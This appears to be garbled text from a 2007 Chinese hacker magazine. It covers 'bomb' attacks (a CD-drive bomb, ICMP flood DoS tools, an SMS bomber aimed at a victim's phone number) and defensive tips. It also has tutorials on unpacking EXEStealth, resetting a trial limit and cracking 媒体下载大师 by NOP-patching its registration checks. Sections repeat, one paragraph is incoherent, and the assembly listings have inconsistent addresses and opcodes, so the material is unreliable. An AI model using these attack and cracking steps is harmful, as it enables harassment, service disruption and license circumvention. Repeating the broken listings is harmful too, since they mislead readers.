- 移政变型的 EXE 文本炸弹

现在最流行的就是 shs“壳”扩展名文本炸弹，到现在为止……

#### 6. 光驱炸弹

下面我为大家带来的一种光驱炸弹——包子光驱炸弹，程序很小，但威力不小！如图15：

当我们运行它后，光驱会自动打开，然后关闭，如此反复，直到将你的光驱抽屉弄坏为止。在这里特别需要注意的是，当程序运行后，会自动搜索所在目录的 EXE 文件，然后修改对应的文件关联，反复执行，直到破坏文件系统的某些文件。进而导致光驱反复关闭是很难恢复的现象，使用的时候请务必慎重！

#### 7. IP炸弹

IP炸弹到现在为止是最为常用的一种炸弹，我们常听说的拒绝服务攻击（D.D.O.S攻击）就是IP炸弹的一种体现，IP 炸弹的危害性极大，它可以在网络上攻击某一个IP地址段内的服务器；其攻击过程是不断发送大量数据包，消耗100%的系统资源，导致服务器停机或重启。现在常用的攻击方式一般都是基于ICMP、IGMP、UDP协议等来实现各种攻击，如OOB攻击、PING攻击、Smurf攻击、分布式攻击、UDP攻击等。

最下面显示的就是速度条，是以一个蜗牛慢爬的形象的来表示。黑等阵中使用100%（任意）时间让浏览器占满，就可一个提示框，提示你攻击完成，如图17。

好了，下面我来教大家如何搜索服务器，我们先点击“搜索”功能，在框架输入框中填写好开始和结束的IP地址，然后点击“开始”就可以了。软件按照我们的设置进行自动搜索，等下面的蜗牛爬到100%的位置时扫描就完成了，下面的方框中会显示如下的信息：

这里的攻击是基于ICMP协议的一种攻击方式，基本分为两种。Ping of Death方式：攻击者发送一个长度超过65535的ICMP Request数据包，使目标主机在重组分片的邻近会导致每分片的65535字节被冲突发送，尤其针对WIN95/98的一种攻击方式，现在几乎不再使用。Ping Flood攻击方式：它是指多次发包，使用数量巨大的ICMP请求报文，占用目标机网络资源，目标主机无法正常工作，今天我们看起来大多数都是基于这类攻击。

我们可以使用相关工具“泛彩之PING”（如图19）来攻击，这款软件结合Ping of Death和Ping Flood两种攻击方式，使部分程序对同一个IP进行洪水式攻击，而且在攻击中一个IP地址内多个IP地址的资源将被耗尽，可以利用于各种攻击。

#### 7-2、PING攻击

这种攻击是基于ICMP协议的一种攻击方式，基本分为两种。

1、Ping of Death方式：攻击者发送一个长度超过65535的ICMP Request数据包，使目标主机在重组分片的邻近会导致每分片的65535字节被冲突发送，尤其针对WIN95/98的一种攻击方式，现在几乎不再使用。

2、Ping Flood攻击方式：它是指多次发包，使用数量巨大的ICMP请求报文，占用目标机网络资源，目标主机无法正常工作，今天我们看起来大多数都是基于这类攻击。

我们可以使用相关工具“泛彩之PING”（如图19）来攻击，这款软件结合Ping of Death和Ping Flood两种攻击方式，使部分程序对同一个IP进行洪水式攻击，而且在攻击中一个IP地址内多个IP地址的资源将被耗尽，可以利用于各种攻击。

#### 8. 手机短信炸弹

手机短信炸弹是利用许多网站提供的手机注册/手机服务等业务，输入手机号后，就会有相关的验证码发送到手机上的漏洞，让我们利用其短信集束、欺骗机文字方式的欺诈手段，自动发送大量的消息到集于一手机上，从而干扰对方手机或信息台的正常工作，达到我们“轰炸”的目的。

针对此前题，本站网站上列出的“验证码”，这给我们带来了发明的“验证码”，也使有时控藏伏的结果具有实质“验证码”功能，而从我们就能轻易地利用了这个漏洞。

在这让我们大家介绍的是一款尚处在又强大的手机攻击器——心奇手机攻击器，如图22。

设定好发送时间，然后在下方输入你要攻击的手机号码，它就会自动地进行攻击了。

## 三、各种炸弹的防范方法

要想防范各种炸弹，当然最重要的是能有一个好的防火墙与杀毒软件，其次还要经常备份注册表等，下面就是各种炸弹的具体防范方法。

### 1、网页炸弹的防范

由于几乎所有的网页炸弹都是含有有害代码的 ActiveX 网页文件，因此在 IE 设置中将 ActiveX 插件和控件、Java 脚本等全部禁止，即可避免网页炸弹。

我们在 IE 窗口中点击“工具”→“Internet 选项”，在弹出的对话框中点击“安全”标签，再点击“自定义级别”按钮，就会弹出“安全设置”对话框。把其中所有 ActiveX 插件和控件以及 Java 相关全部选择“禁用”即可，不这样处理，几乎就不能对书造成一些正常网页的 ActiveX 的网站无法浏览，如图23。

另外，我觉得大家最好再装个上网辅助软件，如老版的浏览器等，带有控制网页弹窗的功能就更好。

### 2、邮箱炸弹的防范

首先不要公开自己的邮箱地址，其次还要尽量可能开启垃圾邮件过滤功能。

### 3、防范硬盘炸弹

我们首先要做好硬盘数据的备份，其次要制作好系统恢复启动盘，以防万一。对于江民灵避硬盘炸弹，先得解盘软件工具“rescue.exe”拷贝到一张空白软盘上，插入软驱后，点击“OK”后，系统就会自动在盘中在一个示意化的菜单，然后在开机也会有效果。

此外，如果出现 unlock 的字符，就能成功地解密了。

对于 Carem3，我们可以使用在安装时提供的默认解密程序来进行破解，只要在开机的时候按 F8 选择 Command prompt only 方式进入 DOS 界面，然后输入解密程序并运行即可。

另外，如果你事先备份了 vmn32.vxd 文件，我们可以用另一个较方法：先启动系统从软盘，执行命令将备份后的 vmn32.vxd 复制到 c:\windows\system\ 里，重新启动计算机就可以了。

### 4、IP 炸弹的防范

对于 IP 炸弹，我们要及时更新微软系统的相应的补丁，然后注意对自己的 IP 地址保密，如果有条件的话还可以使用代理上网。其实要去掉该网络的网络协议，具体操作如下：

进入“控制面板”，然后选择“管理工具”→“服务”，进入服务界面，找到我们不需要的服务，可以点击右键将它关闭。如图25。

找名称“网络服务”，选择“属性”，到“网络和拨号连接”中，鼠标右键单击“本地连接”，选择“属性”，进入“本地连接属性”。点击“Internet 协议 (TCP/IP)”后，点击“高级”，选择“选项”中的“TCP/IP 过滤”，在“只允许”中填入除了 139 之外要用到的端口，如图26。

如果我们是个人用户；最好在 WINS 选项中把 NetBIOS 设置禁用，如图27。

### 5、QQ 炸弹的防范

这种使用传统文件传送炸弹的第一线是较难防范，但如果不经常使用 QQ 发送文件的功能，我们可以将 QQ 的安全等级设置为高，这样有效避免这类炸弹，如图28。

# 反黑精英之入侵防御(二)

从本文中你可以学到：
1. 如何管理计算机用户
2. 如何为自己的系统打补丁

## 三、防漏洞扫描入侵

说起漏洞我们就不得不说说它的发现者——Hacker（黑客），黑客这个名词的意思是：一个对计算机精通，能够随心所欲地操作计算机的人都可称为 Hacker（非法入侵者往小处说，破坏系统并进行破坏的人称为 Cracker），而在世界上的其他地方，人们总是把那些非法入侵他人计算机系统的人称为 Hacker。漏洞的产生通常是由于软件的缺陷造成，一般大家熟悉的 Bug，是因为编写程序的程序员水平有限或者粗心造成的！而编写的程序越复杂，出现漏洞的几率就越大。


目前我们使用的是 Windows XP SP2（如图1），我们就围绕 XP 来谈谈怎么做到防漏洞扫描入侵！

我们分为三步进入课程：
- 第一步 安全分配用户
- 第二步 关闭系统默认共享
- 第三步 为自己的系统打补丁

### 1. 安全分配用户

在电脑安装操作系统后我们都必须设置 Administrator 用户，并且设置密码，当然最好是设置成“强壮”密码！密码是否强壮必须考虑以下条件：
字母（大小写）+ 数字 + 特殊符号（如：# * $ 标点符号等）= 强壮密码（长度在8位以上）


修改密码的方法如下：在“我的电脑”上单击鼠标右键，然后依次操作“管理”（如图2）——在“计算机管理”中选择“系统工具”——展开“本地用户和组”——“用户”，出现如图3所示。

## 四、总结

炸弹攻击的危害总而言之是小的，所以我们使用时一定要注意，不要随意使用。通常造成什么不必要的后果那可就真的麻烦了，给别人带来许多重大伤害。说到别人的工作，就是我们学到的常识。这样的问题是我们都经历出来的，给我们帮助很大，它并不是什么特别的东西。正因如此，我们学到其中重要的意图是其中的原理，从而学会防御。希望大家有什么问题欢迎联系、交流，或者有趣的事可以传给我。


### 2. 关闭系统默认共享

默认共享，听起来似乎自动把用户电脑上的所有本地磁盘进行共享（如：C$、D$、IPC$、ADMIN$），权限是每个分区各自为之，原来是为了方便管理员进行文件传送时的方便，而现在则变为了侵入不利的一个途径……我们需要关闭这个危险的默认共享，这里有一个快捷关闭的方法，可以编辑批处理命令进行执行，内容如下：

```bat
net share ipc$ /del
net share admin$ /del
net share c$ /del
net share d$ /del
net share e$ /del
```

把以上内容保存到一个文本文件中（如图7），内容的意思是删除 IPC、Admin、C、D、E 的共享，如果还有别的盘可以自己添上。输入内容后再另存为后缀为 .bat 的自动批处理文件再执行就可以了。

### 3. 为自己的系统打补丁

其实，对于漏洞最好的方法莫过于更新程序。微软已经考虑好这一点，系统提供了更新补丁的程序。我们应该充分相信它可以最大程度地修复漏洞。

使用该功能之前我们需要先将其开启。方法如下：在“我的电脑”上单击鼠标右键，在弹出的快捷菜单中依次选择“属性”→“自动更新”，自己设置一个合适的时间进行更新即可（如图9）。另外，大部分人一提到系统补丁，可能是某些更新系统的系统镜像。有些系统中此功能默认是关闭的，所以要手动打补丁。不要使用所谓的修改美化系统；系统补丁应使用最新的、可靠的更新补丁程序。

进入瑞星漏洞扫描程序的主界面，单击一下“开始扫描”即可（如图10）。发现漏洞后，我们可以单击安全漏洞列表中的“查看详细”链接，如图11。在漏洞列表最下面单击“修复选择的漏洞”链接（如图12），这样就可以下载漏洞的程序进行修补了！当然，除了《瑞星漏洞扫描工具》外，我推荐一款不错的软件，它就是奇虎360安全卫士（如图13）。


总结：
攻与防始终是矛盾的，始终是没有停止的，所以我们要好好理解攻击的真正含义！这里提到的工具（2007漏洞扫描工具、《奇虎360安全卫士》）已被作者在此文中使用。

编辑后记：技术无止境，攻防你来我往！New4 从 2007 年第一期开始连载，我们非常有幸作为《黑客手册》的责编，能与读者一道进步，这是对我们最大的激励。为纪念本期杂志，特地将本篇文章整理成电子版，附在本期后面。感谢 New4 和其朋友们对本文的支持与帮助。感谢《黑客手册》编辑部。

# 给系统挖一道“护城河”

### 实战操作

打开一个网页，单击某处的“Accept”按钮，将可以下载一个软件的注册文件。把下载下来的注册文件解压缩，打开压缩包里的软件文件，在菜单里找到软件的序列号，然后用这个序列号继续安装软件。在界面的窗口中勾选“Software Virtualization Admin Tool”，再单击“Next”即可完成安装，最后重新启动系统。

## 二、实际操作

现在不少共享软件都捆绑了大量流氓软件，但系统通过软件安装组件操作，先将用户模式变成半虚拟化，再通过虚拟化进行安装，就可以达到绕过流氓软件的目的。我们可以通过 SVS 来试试看。首先我们以《Windows 优化大师》为例来进行测试。


首先启动 SVS，接着点击“文件”菜单中的“创建新层”，然后在弹出的窗口中选择“安装应用程序”选项。再单击“下一步”按钮，在弹出的窗口中按照提示设置层的名称，比如“优化大师”，如图1。

接着在安装监控软件窗口选择“单个程序捕捉”按钮，然后点击“浏览”按钮选择“Windows 优化大师”的安装程序，如图2。再单击“下一步”按钮，SVS 自动最小化到系统任务栏中进行监控，同时也开始安装《Windows 优化大师》，安装过程与平时正常使用，但是实际上它们只是被安装到 SVS 的一个层中。此时你会在右下角的任务栏中看到一个闪动图标，表示 SVS 正在运行。

Office 新手教你装：北方的三月没有着眼霜，白色罩不住喜洋洋的冬。因成本的降低，终于看到了某片属于冬的探望，四季轮回。期望难免会在这朦朦胧胧的希望之上作了无尽的痛苦延迟；不管是《灰姑娘》还是《白雪公主》，都不是给我们这红色时光中充裕的好奇的。于是窗外的灯火，哪有夜深，几百页（爱恨情仇...），可在这一张关心的绽放中再听几多落寞。

## 一、程序简介

SVS 采用了一个“层”的概念，和我们常见的图形编辑软件 Photoshop 中的图层的概念很相似。SVS 就像一条护城河，负责将软件的临时信息缓存进行保留，同时对系统的所有改动都做记录，包括安装到系统的文件、程序对注册表的修改、设置文件的相应属性等。用户只需要将想要安装的软件放置在某个层，之后用户就可以随时关闭这个层，打开下一个层，或删除层。使用 SVS 可以有效地减少注册表与硬盘中的垃圾文件，对于不必长放在硬盘及注册表中的文件，不用重复安装和卸载，它不会在硬盘及注册表中留下任何痕迹。

## 三、移花接木

一台运行了 SVS 的 Windows 系统中，无论这台计算机的硬件配置是否与最初的机器相同，都可以进行层移植。这里我们就以移植 Foxmail 为例进行讲解。

首先启动 SVS，按照前面的方法创建一个“Foxmail”层，并为该层配置好安装参数。安装完成后，在 SVS 窗口中选择“Foxmail”层，接着点击鼠标右键中的“导出层”命令，如图4。然后将导出的文件保存到移动硬盘、优盘等移动设备之中。下面再在另一台计算机中安装 SVS 并启动它，点击“文件”菜单中的“从存档文件中导入”命令，接着按照提示将从移动设备中的文件信息导入。

导入成功后，激活该“Foxmail”层就可以启动 Foxmail 进行使用。并且导入的软件跟导出前安装、注册、设置的功能一样，没有任何改变，这可以实现快速安装。这种移植到别的计算机上带来的好处就是原有的软件都成“绿色软件”了，不需要的时候不激活这个软件，计算机不会因为装了大量的软件变慢。另外的好处就是可以移植化，现在已经有人用 SVS 结合其他软件做出来的克隆系统，比 Ghost 做出来的兼容性更好。

如果是一些常用软件，我们还可以选择在创建菜单中的“自动启动层”选项，这样当用户一运行 SVS 的时候该软件就会自动进行启动。如果用户取消激活这个“Foxmail”层的话，那么就没有人知道这个系统中还安装了“Foxmail”，真正做到了隐蔽地使用。

## 四、小结

现在选择“优化大师”层并点击选择“取消激活层”命令，《Windows 优化大师》将会被强制关闭。而这个软件在系统中的所有痕迹，包括注册表项目、桌面快捷方式等都会消失。同样的道理，在该层上单击鼠标右键选择“激活层”命令，软件即可恢复。选择右键菜单中的“编辑高级层属性”命令，在弹出的编辑层窗口中点击“文件”标签，依次展开“特定用户”→“指定用户代码”→“DESKTOP”选项，就可以看到“Windows 优化大师”安装后的变化，如图3。

同样的道理，所有对软件的修改，比如修改注册表键值、调整环境变量等，都是在这个编辑界面中进行。如果要彻底地删除 Windows 优化大师及其所带的流氓软件，就在 SVS 窗口选择“优化大师”层。首先点击右键菜单中的“取消激活层”，再选择“删除层”命令就可以完全彻底地卸载删除，不会在系统中留下任何痕迹。以后如果想测试某款软件的话，就可以首先在 SVS 进行测试。如果没有异常的话再进行正式安装。

通过上面的介绍我们发现，SVS 和以前我们介绍的“影子系统”非常相似，但是它依然有很多不同之处。首先“影子系统”中几乎所有程序都会在重新启动以后消失，而 SVS 既不会出现这样的现象，而且还可以对软件的行为进行保存，并且不同的程序可以安装在不同的“层”上。但是 SVS 最大的局限就是，它不能在 SVS 软件虚拟层中安装一些需要在系统中安装驱动或硬件系统服务的软件，比如常用的杀毒软件、Alcohol 120%、KAV 等反病毒软件就无法在 SVS 中正常安装。


> 【文章中涉及到的工具】 Altiris Software Virtualization Solution 在光盘中收录

编辑点评：从最初的虚拟机，到一脉流行的影子系统，再到今天的 SVS，我们看到了虚拟环境和资源虚拟技术等越来越小巧、实用。流氓软件泛滥的今天，SVS 给用户提供了一个更为灵活的软件组织方案，它可以帮助系统恢复干净整洁，SVS 真是名副其实的 Cracker 克星！

# 免费硬盘增容大法

从本文中你可以学到：使用 Windows 的内置压缩功能节省磁盘空间。

菜鸟有个大硬盘，但是由于平时喜欢下载和试玩新软件，160G 的硬盘已经是频频告急。手头又没有刻录机，也没有多余的空间。于是想到将磁盘格式转换成 NTFS。通过实验才知道，要想节省硬盘空间，利用 NTFS 的压缩属性是非常有效的。

- **菜鸟误区 1：** 认为什么文件都可以压缩。其实不同的文件压缩的情况是不一样的。一般来说，文本文件及办公文件压缩率在 40%～60% 之间；视频文件（如 .mpg）和图像文件（如 .tif）压缩率在 30%～40% 之间；某些镜像文件（ISO）为 25%；虚拟机文件（VHD）和数据库文件（MDB）可达 50%；而对于已经高压缩的视频（如 RMVB）或图像（如 JPG），压缩效果非常有限。
- **菜鸟误区 2：** 文件被压缩了会造成使用不便或效率问题？其实不必担心，由于是系统自带功能，压缩文件在被调用时会自动解压，不会影响使用，数据依然是原来的，不存在兼容性问题。
- **菜鸟误区 3：** 如何知道文件文件夹是否被压缩？在 Windows XP 中，资源管理器中目录或文件名呈现蓝色的则为压缩目标。在 Win2K 中可使用“右键”——“属性”查看其占用空间情况。
- **菜鸟误区 4：** 被压缩目录还具备什么特性？被压缩的目录中新建的文件也会自动继承压缩属性。如果将文件移动到不支持压缩属性的分区（如 FAT32），文件会自动解压恢复为非压缩状态。


# 破解资源

**资源名称：** Win32ASM Tutorial Resource Kit v1.0
**大小：** 2.69M
Win32ASM Tutorial Resource Kit v1.0 是 dreamTEAMHEATER 整理的 Win32 ASM 教学，内容丰富，涵盖了 Win32ASM 中大部分内容，对你的学习会有很大帮助。


# 破解技巧

1. 打开程序。
2. 名字窗口（在 CPU 窗口中按 CTRL+N）。
3. 查找 User32.TranslateMessage API。
4. 右击 -> Find References（查找参考）。
5. 下条件断点（SHIFT+F4）。
6. 表达式：MSG。
7. 记录函数参数，观察程序运行状态。

# 破解前奏之手脱 EXEStealth 的几种方法

从本文中你可以学到：手脱 EXEStealth 的方法。

大家好，经过前面的学习，相信你也能够处理一些比较简单的壳了。这一次继续为大家带来脱壳教程，目标就是 EXEStealth。
**小知识：** EXEStealth 是一个功能强大的 EXE 可执行文件加密工具，支持 CRC 检测、API 变向、防止调试等功能，还可以防止程序被 SmartCheck、Softice、IDA 等反汇编工具分析。

**【需要准备的工具】**
1. OllyDBG v1.1（用于动态调试）
2. LordPE v1.4（脱壳辅助工具）
3. ImportREC v1.6 Final（导入表修复工具）

**【脱壳过程】**
开始，先看一下版本：EXEStealth 2.5/2.6。还记得前几期学习过的“内存断点法”吧？这次的目标就是“影子管理”程序，查壳发现其使用了 EXEStealth。

```asm
00401608  60        pushad
00401609  EB 22     jmp short 00401685
0040160B  45        inc ebp
```


按下 Alt+M 打开内存映射，看到如图1高亮显示部分按下 F2（设置访问中断），然后按下 F9 运行。嗖的一声，程序会停在如图2所示位置，然后按下回车。

```asm
7C9643D7  6B8B50 0C   mov dx, word ptr ds:[eax+C]  ; 停在这里
7C9643B1  8955 B8     mov dword ptr ss:[ebp-48],edx
```


到达 OEP（程序入口点）位置：
```asm
0044DB64  55        push ebp
0044DB65  8BEC      mov ebp,esp
0044DB67  83C4 F4   add esp,-0C
0044DBA6  B8 049D4400  mov eax,0044D994
0044DB6F  E8 B087EBFF  call 00406324
```

在这里，就可以使用 LordPE 将进程 Dump 出来，再使用 ImportREC 装载并修复导入表。设置完成后，重新载入目标程序，经过调试，我们可以发现程序直接停在 OEP 处了。


# 黑客手册 2007.03 NOHACK

到了 0040D7F3 处，下一个断点，然后运行它，马上中断了。取消它，慢慢跟踪一下，当到了 0040D817 的时候，发现 OEP 转移了，到了 0040D822 后，OEP 就要出来了，继续慢慢跟踪，来到下面代码处：


到了这里，就可以做前面的 Dump 和修复的工作了。下面我们继续讲解，这次的目标是扩展它的记事本，PEID 显示为 EXE Stealth v2.76，OK，马上 OD 载入，载入前我已经将 OD 的调试选项的异常设置一下，只对异常的第一个选项打勾，如图 4 所示：

```text
0040D0B4  55        push ebp ; SFX 代码真正入口点
0040D0B5  8BEC      mov ebp,esp
0040D0B7  83C4 F4   add esp,-0C
0040D0BA  B894D40000 mov eax,0x0044D994
0040D0BF  E8 B07FBFFF call 00406324
```

```text
0040D0C6  EB 65     jmp short NOTEPAD.0040D12D
0040D0C2  45         inc ebp
0040D0C3  78 65      js short NOTEPAD.0040D12A
```

```text
0040D1CB  88EF      mov ebp,edi
0040D1CD  33DB      xor ebx,ebx
0040D1CF  64F0E3    pop dword ptr fs:[ebx]
```

```text
0040D7C3  8B CD     mov ecx,ebp
0040D7C5  33D8      xor ebx,ebx
0040D7C7  64F0E3    pop dword ptr fs:[ebx]
```

```text
0040D850  0000      add byte ptr ds:[eax],al
0040D852  0000      add byte ptr ds:[eax],al
0040D854  0000      add byte ptr ds:[eax],al
```

```text
0013FFBC  0013FFE0  指到下一个 SEH 记录
0013FFC0  0040D7F3  SE 指示这里
0013FFC4  7C8123E5  返回到 kernel32.7C8123E5
```

```text
0040D7F3  55        push ebp ; 来到这里
0040D7F4  8BEC      mov ebp,esp
0040D817  89E8B8000000 mov dword ptr ds:[eax+B8],edi
0040D81D  8B00      mov eax,0
0040D822  5F        pop edi
0040D823  C9        leave
0040D824  C3        retn
```

我们一般都知道 Win98 下记事本的 OEP 是 004010CC，但现在我们只看到 004010C7 和 004010CD，就是看不到 004010CC，所以这里应该是 OEP 被绕过了。不过没关系，我们完整地在 Win98 下查看记事本 OEP，然而被拖慢的 OEP 也回去了，原来的 004010C7 走掉了，来到了 004010CC。虽然这样看似有些别扭，但在这份恢复方式中，OEP 仍然可以正确地看到原来注入的程序。运行修改过的程序，是可以正常运行的。

```text
0040D0C6  EB 65     jmp short NOTEPAD.0040D12D
0040D0C2  45         inc ebp
0040D0C3  78 65      js short NOTEPAD.0040D12A
```

```text
7C82C1EA  8BFF      mov edi,edi
7C82C1EC  55        push ebp
7C82C1ED  8BEC      mov ebp,esp
```

```text
0040D3F2  58        pop eax
0040D3F3  8B85 313040D0 mov eax,dword ptr ss:[ebp+40303]
0040D3F9  BB 01000000 mov ebx,1
0040D3FE  E8 08000000 call NOTEPAD.0040D400
0040D403  83C4 1C   lea eax,[esp+1C]
0040D409  50        push eax
0040D40A  C3        retn
```

```text
00405001  90        nop
00405002  C1D0 35    add eax,35h
00405008  C1C8 07    rol ebx,7
0040500D  895C24 10  mov dword ptr ss:[esp+10],ebx
```

最后来讲解一下最后一招，将 OD 的异常设置回去，忽略所有异常，载入刚才的目标程序：

在命令行插件上输入：`BP CloseHandle`；F9 后，马上中断。

返回到程序的领空去：

使用 F8 跟踪完这几行，走完就返回到：

返回到 0040D4FB，当走到 0040D502 的时候，发现 [004D8C2] = 00010CC，ebx = 00400000，相加结果就等于 OEP 了。所以直接到 OEP 那里吧，F2 下一个断点，然后执行，继续就可以 Dump 下来了，其修复方法和前面一样。

## 脱壳总结

本文介绍了四种脱 ExeStealth 的方法，但是并不代表只能用这几种方法来解决。事实上方法还有很多，比如在 PEID 上找到 OEP，再到 OEP 那里下断点，或者是使用脱壳脚本等等。没有你做不到，只有你想不到。最后我把 ExeStealth 2.76 打包附上了，有兴趣的可以自己动手脱壳。编辑提示：请不要因好奇而随意尝试，以免对系统造成不必要的损害。以后我们会继续为大家奉上精巧的脱壳教程。

# 轻松解除《网络守护神标准试用版》的时间限制

从本文中你可以学到：
- 使用 Trial-Reset 解除 ASProtect 的时间限制
- 局域网上网的方式通常采用共享单线的模式，网内的用户为了获得更快的下载速度，必须获得更大的带宽。

我的一个朋友在某单位当网管，他也遇到了同样的问题，网内总有 7、8 个用户在疯狂下载，而且单位内的总带宽有限，关键是有些用户只能通过共享下载...


说明：我试着把时间向前调整了 8 天，果然过期提示出现了；向后调整 1 天过期提示依然，调整到安装时间 7 天内就可以使用。初步判断软件在启动的时候读取某个文件的内容，该内容包括了安装时间和配置信息。用 Filemon 跟踪后，对一个个文件进行排查都没有任何发现。这个方法没有用了，只有跟踪程序流程。先用 PEID 看看，显示是 ASProtect 2.1x，用 ASProtect 辅助工具发现这是一个用 ASProtect 加壳的程序，如图 2、图 3。


看来这家软件在加壳后对信息作了修改，可能无法通过正常的方式脱壳了。不过想想工具库中的 Trial-Reset，它是专门针对此类时间限制的。第二天回来尝试破解 7 天限制，锁定了某些加密点。第三种方法，就是通过常规的破解方式解决，这种方式破解后通常会有注册提示。

# 完全破解媒体下载大师

从本文中你可以学到：
1. 媒体下载大师的注册分析
2. 如何破解媒体下载大师

### 第一步：初步探测
破解之前还是先用 PEID 查壳吧，如图 1。明显没有加壳，是大家常用的开发工具写的。


### 第二步：分析并完成破解

先用 OD 载入。这里我说一下，刚开始找的断点是：`BP GetWindowTextA`，因为程序是用 VC++ 写的，所以我首先想到这个。不过很麻烦，结果虽然是破解了，但是这种方法很费时。下面还是来看看 hacking 的启发，让我是怎么破解的。


接着按 F9，有异常就先 SHIFT+F9，一共按 5 次程序就运行起来了。那我们重新载入，按照上面的方法下断，这次我按 4 次 F9。中断的地址不在程序领空，所以我们按 ALT+F9 回到程序领空，来到下面：

```text
77E52897  55                 PUSH EBP
77E52898  8BEC               MOV EBP,ESP
77E5289A  53                 PUSH EBX
77E5289B  8B D0              MOV EBX,EAX
```

```text
00401778  B0 01              MOV AL,1  ; ALT+F9来到这儿
0040177A  C2 1400            RETN 14
0040177D  90                NOP
0040177E  90                NOP
0040177F  90                NOP
00401780  8D4424 04         MOV EAX,DWORD PTR SS:[ESP+4]
```

下面我们按 F8 单步向下走，经过多次 F8 来到这里，如下：

```text
00401780  B0 01              MOV AL,1
0040177A  C2 1400            RETN 14
0040177D  90                NOP
0040177E  90                NOP
0040177F  90                NOP
```

若 `TEST AL, AL` 后跳转，就会跳向“未注册版本”。为了不让它跳，把它 NOP 掉就可以了。不过还没完，下面还有：

```text
00407494  68 3CCB5500        PUSH StreamDo.005CCB3C ; 注册用户
004074A0  8D4C24 14          LEA ECX,[DWORD PTR SS:[ESP+14]]
004074A4  E8 A4380E00        CALL StreamDo.004EBF5E
004074A9  8D4C24 88          LEA ECX,[DWORD PTR SS:[ESP+88]]
004074AE  51                 PUSH ECX
004074AF  50                 PUSH EAX
004074B0  52                 PUSH EDX
004074B1  E8 534D0E00        CALL StreamDo.004EC20C
004074B6  8B448D 00          MOV EAX,DWORD PTR SS:[EBP]
004074BA  68 3CCB5500        PUSH StreamDo.005CCB3C
```

把鼠标继续往下滚，又有这样的代码：

```text
00407637  84C0              TEST AL,AL
00407639  0F84 1D000000     JE StreamDo.0040775C  ; 若跳转就指向未注册
; 注册用户显示
0040763F  8B 3CCB5500       PUSH StreamDo.005CCB3C
00407644  8D4C24 1C          LEA ECX,DWORD PTR SS:[ESP+1C]
00407648  E8 9849E000       CALL StreamDo.004EBF5E
0040764D  8B4424 68          MOV EAX,DWORD PTR SS:[ESP+68]
```

修改完这些代码后，我们把修改保存。保存之后双击运行，发现程序没有弹出那个注册界面，而是直接进入了程序的真正运行界面，如图 4。


怎么样，爽了吧。可是这样还是不完美，因为在“帮助”菜单中还是显示未注册版本，如图 5、图 6。


应该还有更妙的办法。大家花了那么多时间破解，程序终于解锁成功了。


编辑前言：这是一个学习类文章，文中给出的程序演示仅用于技术分析和学习参考。

## Q&A

- **Q：我的 Windows XP 没有权限设置，为什么？磁盘格式是 NTFS 的，选择盘符后单击右键，进入“属性”后却没有“安全”选项卡。**
- **A：** 只要是 NTFS 格式的磁盘就有权限设置。XP 默认开启了简单共享，需要修改一下：打开“我的电脑”，点击“工具”->“文件夹选项”->“查看”，把“使用简单文件共享（推荐）”前的勾去掉就可以了。

- **Q：我现在电脑上建立了一个 IIS 站点，把文件夹的权限修改成了 IIS_user 权限，导致删除文件夹时报“拒绝访问”，该怎么办？**
- **A：** 可以在 DOS 下对文件的权限进行设置。使用的命令是 `cacls`。例如以管理员身份登录后，将“Administrator”账户添加到该文件夹权限中，即可正常访问或删除。

- **Q：最近我打开网络连接上网后，总是显示“连接受限制”？**
- **A：** 如果你处于局域网中，建议修改成固定 IP 地址。在“本地连接”属性中选择“Internet 协议 (TCP/IP)”，手动填写 IP 地址（如 192.168.0.X）和子网掩码（255.255.255.0）。

- **Q：TEMP 文件夹下的 IMECache.tmp 文件是病毒吗？大小只有 64 字节，但清理后又会出现。**
- **A：** 这是一个临时文件，通常不是病毒。它是由某个程序（如输入法）在启动时产生的缓存文件，用于保存临时信息。

- **Q：电脑很多的图标都变成了一个“熊猫拿着三根香”的图标，且盘符不能双击打开，是不是中了毒？**
- **A：** 这是典型的“熊猫烧香”病毒（autorun.inf 病毒）。建议步骤：
    1. 结束进程：`spoolsv.exe`（注意检查路径）。
    2. 删除病毒文件：`%SystemRoot%\drivers\spoolsv.exe`。
    3. 显示隐藏文件，删除各盘根目录下的 `setup.exe` 和 `autorun.inf`。
    4. 清理注册表 `Run` 启动项。
    5. 修复注册表 `CheckedValue` 键值以恢复文件显示。

- **Q：怎样把任务栏里面的“开始”文字改成自己想要的？**
- **A：** 需要使用资源编辑工具（如 Resource Hacker）修改 `explorer.exe`。找到对应的字符串资源进行替换并保存。注意操作前务必备份原文件。

- **Q：怎样更改 Win2000 远程登录的最大连接数？**
- **A：** 可通过组策略调整。运行 `gpedit.msc`，进入“计算机配置”->“管理模板”->“Windows 组件”->“终端服务”，找到“限制连接数”进行设置。

## 黑客手册 2007.03 NORHACK

如果是“黑客帝国.avi”，那么其他的两个文件名就应该就是“黑客帝国.图.sub”和“黑客帝国.图.idx”。

做好这些之后，我们还需要下载一个支持复杂字幕格式的外挂字幕插件（VSFilter），下载地址：http://www.mydown.com/soft/108/108063.html。下载之后把这个文件复制到系统的 system32 目录下，路径为“C:\WINDOWS\system32”，最后打开“开始”-“运行”，输入“regsvr32 VSFilter.dll”。

1. 对于一个视频文件，我们在播放时可以添加一个文件过滤器的外挂字幕，它还可以实现一个字幕框、字幕及字幕位置的调节；它还可以辅助完成关键字搜索，它可以有效地防止扫描的文本框，但当画面和某一特定的内容从中搜索，直接输入的内容，这个就可以实现一个“字幕浮动”。

2. 如果我们需要把“画面”处理成字幕选取的方式，那就直接在对象中调用过滤器，然后在“录像机”中设置完成字幕模板，对应场景中所设置的字幕模板即可。

3. 最后，大家的“字幕”会根据图像在主控表中依次转换，并能达到画中画的效果。因此，我们可以把一段视频分成多段，然后把它们分开在字幕中显示。

**Q：最近打开一个网页 CPU 就会一下子跳到很高，一会儿又变成 10% 了。请问如何降低 CPU 使用率啊？**
**A：** 有些软件会占用相关线程，但凡能造成文字出现，应该是加载一些关键处理。对于程序运行来说，在内存中的大户，应该是在内存的某一种方法，是一次性服务的事件；先关闭再开就会正常运行。但这又由 CPU 占用率本身决定，不只会在系统中、在浏览器中、在各种不同程序中都会很高，而且往往是网页中有很多脚本及动画效果，导致它们总是在不断地加载，这种属于正常情况。

**Q：我想用 GHOST 备份文件，可听说需要进入 DOS 状态，指的是不是一个操作平台？我使用的是 XP，怎么进入这个操作平台呢？**
**A：** 最初的计算机采用的是 DOS 系统，后来微软开发了 Windows 操作系统，又叫作 Windows 操作平台。由于 Windows 操作平台没有完整的 DOS 环境，因此不能通过 Windows 里的系统功能对某些电脑进行维护。

